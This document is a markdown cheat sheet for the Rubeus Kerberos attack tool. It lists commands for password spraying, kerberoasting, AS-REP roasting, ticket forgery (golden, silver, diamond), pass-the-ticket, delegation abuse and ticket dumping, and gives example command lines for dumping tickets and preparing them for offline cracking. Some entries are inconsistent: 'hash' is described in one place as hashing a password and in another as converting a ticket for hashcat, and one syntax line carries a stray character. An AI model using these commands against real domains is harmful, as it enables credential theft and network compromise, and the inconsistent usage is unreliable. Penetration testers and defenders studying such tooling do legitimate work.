 ### Author: https://github.com/GhostPack/Rubeus

### Commands:

#### asktgt = Request a ticket-granting-ticket (TGT) from a hash/key or password

#### asktgs = Request a service ticket from a passed TGT

#### renew = Renew or autorenew a TGT or service ticket

#### spray / brute = Kerberos-based brute-force, password spray attacks

#### preauthscan = Scan for accounts that don't require kerberos authentication (ASREPRoasting)

### Flags:

#### /user:USER

#### /HASH_ALGORITHM:HASH

#### /getcredentials

#### /certificate:CERTIFICATE

#### /password:PASSWORD

#### /dc:DOMAIN_CONTROLLER

#### /ptt (Pass-the-Ticket)

#### /domain:DOMAIN

#### /service:SERVICE

#### /ticket:BASE64_TICKET

#### /impersonateuser:USER

### TICKET FORGERY

#### golden = TGT

#### silver = Service ticket / TGS

#### diamond = Diamond ticket

### TICKET MANAGEMENT

#### ptt = Apply a ticket to the current (or specified) logon session

#### purge = Purge the session of Kerberos tickets

#### describe = Describe a ticket base64 blob or .kirbi file

### TICKET EXTRACTION AND HARVESTING

#### triage = LUID,username,service,service target,ticket expiration

#### klist = Detailed logon session and ticket info

#### dump = Detailed logon session and ticket data

#### tgtdeleg = Retrieve usable TGT for non-elevated user

#### monitor = Monitor logon events and dump new tickets

#### harvest = Same as monitor but with auto-renewal functionality

### ROASTING

#### kerberoast = Perform kerberoasting against all users (or specified)

#### asreproast = Perform AS-REP roasting against all users (or specified)

#### s4u = Perform S4U2self and S4U2proxy actions (Constrained delegation abuse)

### MISCELLANEOUS

#### createnetonly = Create a process of logon type 9

#### changepw = Aorato kerberos password reset

#### hash = Hash a plaintext password to kerberos encryption keys

#### tgssub = Substitute in alternative service names into a service ticket

#### logonsession = Display logon session info

#### currentluid = Display current user's LUID

### TECHNIQUES

#### 1) 

    Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] 

#### 2) 

    Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

#### 3) 

    Rubeus.exe klist [/luid:LOGINID]

#### 4) 

    Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

#### 5) 

    Rubeus.exe triage (List available tickets)

#### 6) 

    Rubeus.exe dump /luid:0x12d1f7 (Dump one ticket, the output is in Kirbi format)

#### 7) 

    Rubeus.exe renew /ticket:BASE64_TICKET (Renewing a ticket)

#### 8) 

    Rubeus.exe hash /ticket:BASE64_TICKET (Convert a ticket to hashcat format for offline cracking)
